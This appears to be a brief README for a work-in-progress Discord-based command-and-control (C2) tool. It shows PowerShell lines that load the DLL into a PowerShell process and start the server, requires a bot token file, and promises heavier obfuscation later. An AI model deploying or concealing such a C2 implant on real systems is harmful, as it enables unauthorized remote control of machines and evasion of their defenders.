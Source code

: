 # Work in progress

#### Injecting the DLL in a PowerShell process:
```pwsh
Add-Type -path .\Discord-C2.dll
[DiscordC2.Server]::Start()
```

A .dc2 file containing your bot's token needs to be accessible in the folder where the application is going to run.
This is a temporary solution during development, it will be obfuscated to a much higher degree later
